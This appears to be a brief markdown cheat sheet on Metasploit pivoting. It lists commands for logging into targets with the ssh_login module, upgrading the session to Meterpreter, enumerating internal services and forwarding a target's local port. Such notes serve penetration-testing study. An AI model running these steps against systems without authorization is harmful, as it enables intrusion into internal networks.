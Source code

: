 # Metasploit

# Usage:

#### route add/del IP SUBNET [COMM/SID] (proxy)

#### portfwd add/del -l PORT -p PORT -r IP (port forwarding)

## Port Forwarding with Metasploit

### 1) With SSH login

 - use auxiliary/scanner/ssh/ssh_login

 - set rhosts RHOSTS

 - set username USERNAME

 - set password PASSWORD

 - exploit

 - sessions -u 1 (Upgrade to Meterpreter session. Creates an EXTRA session with meterpreter)

 - sessions 2

 - netstat -antp (Check for applications that run internally within the target)

 - portfwd add -l LOCAL_PORT -p TARGET_PORT -r 127.0.0.1


